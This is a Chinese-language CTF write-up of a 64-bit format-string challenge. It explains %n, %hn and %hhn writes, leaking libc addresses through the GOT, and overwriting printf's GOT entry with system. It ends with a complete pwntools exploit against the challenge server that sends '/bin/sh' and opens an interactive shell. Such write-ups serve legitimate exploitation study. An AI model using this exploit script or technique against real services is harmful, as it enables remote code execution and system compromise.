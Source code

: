 题目是老计出的校赛题。给了程序和lib库  
ida启动.jpeg f5  
&emsp;&emsp;可以看出read将用户输入的数据存在栈中，而且printf没有对输出的字符串做格式化，可以通过格式化漏洞对内存进行任意读写；  
  
<img src="/images/20181107/0.png" />   

&emsp;&emsp;首先进行一些简单的尝试，用ida找到调用printf函数处，下断点；  
  
<img src="/images/20181107/1.png" />   
 
---------------------  

**先预习一下格式化字符串的利用**：  

&emsp;&emsp;%c: 输出字符，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%d: 输出十进制整数，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%x: 输出16进制数据，如%i$x表示要泄露偏移i处4节长的16进制数据，%i$lx表示要泄露偏移i处8字节长的16进制数据，32Bit和64Bit环境下一样。  
&emsp;&emsp;%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。    
&emsp;&emsp;%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。    
&emsp;&emsp;
%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x%10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。  
&emsp;&emsp;
%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。  
  
-----
&emsp;&emsp;输入%p,发现打印出的地址为`0x7ffff7dd2683`，而栈顶的地址为`0x7fffffffdf40` &emsp;(这里我不太明白，为什么写入是从rdi指针指向的偏移量为8的栈地址处开始的，然后printf的打印的内容从这里以前偏移量为8的位置开始。。也就是说输入%8p的时候才打印输入的内容。  
  
<img src="/images/20181107/2.png" />     
  
&emsp;&emsp;尝试了一下`%i$s`，打印偏移量为i的所存地址中的内容。由于可以写入内容到栈中，可以构造`%i$p+ padding*(( i-8 )*8-i) + (要读的地址)` 这样的形式来对指定内容进行读取，这就是格式化字符串中所说的任意读。  
  
&emsp;&emsp;然后尝试了一下`%n`,,pwntools中有fmtstr_payload简易化写入payload的构造，但其局限与32位，由于这题是64位的，还得自己手动打payload，由于基础知识的缺少，这里坑了好久。。尝试了许多次%n输入，gdb 中使用dd查看内存却老是看不到自己想要打印的内容，逐渐认识到以下两点:  
  
1. 通过`%{}x%i$n.format()`的格式写入时，是将前面括号内的十进制数字转换位16进制写入，当通过此格式写入第二个时，构造payload要将后面的地址的部分的值减去前面一次输入的值，也就是第二次程序将会把前一次括号内的值加上后一次括号内的值的和的十六进制作为输入的值，这里又是坑多多，当地址值恰好第一次的值小，第二次的值大，相减作出的负值是行不通的，大概是输入的‘-’号不能被机器理解成负号。。。于是构造payload要么写多种情况，，要么就将payload多试几次= =（可能有别的方法我不知道= =#)  
2. 当写入的值太大时程序会发生崩溃，因此可以使用%hn %hnn来分别写入2个字节、1个字节，此题读出的地址值为5字节，可以分为1，2，2来写入，！！注意把要写入的地址拆分成3个后，要把他们写入各自相应的地址内。
  
  
&emsp;&emsp;接下来的思路就是，算出system在内存中的值，然后把printf在got表中的值替换为system的地址，再把`'/bin/sh\x00'`输入作为printf的参数，实际上就是运行了`system('/bin/sh')`的指令。  
&emsp;&emsp;system的值可以用任意写先获得got表中任意函数在内存中的值，然后根据题目给的lib库的相对偏移计算。（这里又有坑）  
&emsp;&emsp; 我第一次是通过泄露printf的值来计算system的地址，调了半天不行，才发现泄露的并不是printf的地址而是栈中后续的内容，构造的`printf("%i$s",printf_got) `源程序中的`printf(&buf,&buf)`
； 所以是`printf("%i$s","aaaa...printf_got" ,"%i$s","aaaa...printf_got")`??  
&emsp;&emsp;总之是打不出来printf的地址，但是换一个函数的地址打就ok  
  
另外学到一个加载题目给的库的方法  
  
<img src="/images/20181107/3.png" />   
  
最后是exp：  
  
    from pwn import *
	#p=process('./pwn6',env={'LD_PRELOAD':'../libc-2.23.so'})


	p=remote("123.206.131.120",10006)

	elf=ELF('./pwn6')
	libc=ELF('libc-2.23.so')
	printf_got=elf.got['printf']
	puts_got=elf.got['puts']
	setbuf_got=elf.got['setbuf']
	puts_offset=libc.symbols['setbuf']-libc.symbols['puts']
	system_offset=libc.symbols['setbuf']-libc.symbols['system']
	print p.recv()
	#gdb.attach(p)
	p.sendline('\x25\x31\x31\x24\x73\x00'+'\x25\x31\x32\x24\x73\x00'+'a'*12+p64(setbuf_got)+p64(printf_got))
	print p.recvline()
	setbuf_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('printf:'+hex(setbuf_addr))
	p.sendline('\x25\x31\x31\x24\x73'+'a'*19+p64(puts_got))
	print p.recvline()
	puts_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('puts:'+hex(puts_addr))
	log.info('puts_offset:'+hex(setbuf_addr-puts_offset))
	system_addr=setbuf_addr-system_offset
	log.info('system_addr:'+hex(system_addr))
	
	offset_5=(system_addr & 0x0000ffff00000000)>>32
	offset_34=(system_addr& 0x00000000ffff0000)>>16
	offset_12=system_addr & 0x000000000000ffff
	
	
	
	if  offset_12 > offset_34 :
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%14$hn'.format(   offset_34 - offset_5    )
		payload+='%{}x%15$hn'.format(    offset_12 - offset_34   )
		log.info('positive')
	else:
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%15$hn'.format(  offset_12 - offset_5  )
		payload+='%{}x%14$hn'.format(    offset_34 - offset_12    )
		log.info('negative')
	
	top=len(payload)
	payload+=(40-top)*'a'+p64(printf_got+0x4)+p64(printf_got+0x2)+p64(printf_got)

	#gdb.attach(p)
	raw_input()
	log.info('payload:'+payload)
	p.send(payload)
	p.recv()
	p.sendline('\x00\x00/bin/sh\x00')
	p.interactive()



最后还有一个要注意的地方，，最后发送的参数这里是`'\x00\x00/bin/sh\x00'`，前面放了几个‘垫片’，是因为说找不到in/sh啥的，估计是偏移的问题，虽然能拿到shell，但是使用次数仅在他的循环次数内，就酱紫。